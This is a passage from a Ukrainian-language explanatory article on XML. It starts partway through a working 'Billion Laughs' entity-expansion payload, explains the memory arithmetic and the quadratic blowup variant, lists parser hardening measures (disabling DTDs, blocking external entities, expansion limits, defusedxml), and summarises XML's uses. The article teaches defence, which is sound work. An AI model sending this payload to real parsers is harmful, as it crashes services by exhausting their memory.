 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**Математика вибуху пам'яті:**
Файл має фізичний розмір лише близько 1 Кілобайта. Сутність `lol` містить 3 байти. Сутність `lol1` містить 10 посилань на `lol` (30 байтів). На рівні `lol9` кількість повторень досягає:

```
N_expansions = 10⁹ = 1 000 000 000 екземплярів рядка "lol"
Обсяг пам'яті ≈ 3 000 000 000 байтів ≈ 3 Гігабайти RAM
```

Якщо додати ще два рівні (`lol11`), обсяг тексту сягне 300 Гігабайтів. Незахищений парсер виділяє пам'ять у купі доти, доки не вичерпає весь ліміт оперативної пам'яті хоста, після чого операційна система аварійно вбиває весь процес служби через механізм OOM Killer.

Різновидом цієї атаки є **Quadratic Blowup Attack**, коли в DTD визначається один гігантський рядок розміром 100 КБ, а в тілі документа він повторюється 100 000 разів поспіль без вкладеної рекурсії, генеруючи гігабайти пам'яті за квадратичним законом.

### Рецепти загартування парсерів (Parser Hardening)

Для повного усунення синтаксичних загроз XML у виробничому середовищі необхідно дотримуватися суворих конфігураційних інваріантів:

1. **Повна заборона DTD:** якщо бізнес-логіка не вимагає підтримки застарілих DTD-схем, обробку декларацій `DOCTYPE` слід вимкнути повністю на рівні фабрики парсерів (наприклад, прапорець `DISALLOW_DOCTYPE_DECL = true` у Java або `XML_PARSE_NODTD` у C/C++ бібліотеці `libxml2`).
2. **Блокування мережевих і зовнішніх сутностей:** якщо DTD необхідний для базової валідації, зовнішні резольвери сутностей повинні бути жорстко заблоковані (`XML_PARSE_NONET`, заборона `SYSTEM`/`PUBLIC` дескрипторів або встановлення порожнього `EntityResolver`, який повертає порожній потік).
3. **Ліміти на розгортання та розмір сутностей:** налаштування порогів безпеки (Entity Expansion Limit не більше 10 000, ліміт максимальної глибини рекурсії та ліміт сукупного розміру розгорнутих символів).
4. **Застосування безпечних бібліотек:** використання сучасних модулів попередньої фільтрації (як-от `defusedxml` для Python), які автоматично інспектують заголовки потоків і відхиляють потенційно небезпечні XML-бомби до передачі в ядро синтаксичного аналізатора.

## Підсумок: роль XML у сучасній архітектурі

Формат XML пройшов еволюцію від громіздкої видавничої спадщини SGML до фундаментального технологічного каркасу корпоративних інформаційних систем. Попри те, що у сфері легкозважних REST API та мобільного бекенду формат JSON посів домінуюче місце завдяки простоті серіалізації нативних структур мов програмування, XML залишається незамінним там, де на першому місці стоять строгість контрактів, багатство документної розмітки та інтеграція гетерогенних стандартів:

- **Документоорієнтовані стандарти:** сучасні офісні формати (DOCX, XLSX, ODF), векторна графіка (SVG) та геоінформаційні треки (GPX, KML) побудовані виключно на XML завдяки підтримці змішаного вмісту та розширюваності.
- **Корпоративні та фінансові протоколи:** банківські шлюзи (ISO 20022), системи обміну медичними картками (HL7 CDA), протоколи федеративної авторизації (SAML) та електронного цифрового підпису (XML-DSig / XML-Enc) спираються на багаторівневу валідацію XSD-схем та криптографічну канонікалізацію (C14N).
- **Складні конфігураційні моделі:** системи збірки проектів (Maven POM, MSBuild) та маніфести мобільних операційних систем (Android Manifest) використовують простори імен XML для безконфліктного комбінування модулів від різних постачальників.

Розуміння триєдності моделі Infoset, механіки розв'язання просторів імен та відмінностей між пам'яттємістким графом DOM і потоковими ітераторами SAX/StAX є обов'язковим фундаментом для побудови надійних, масштабованих та безпечних розподілених програмних систем.
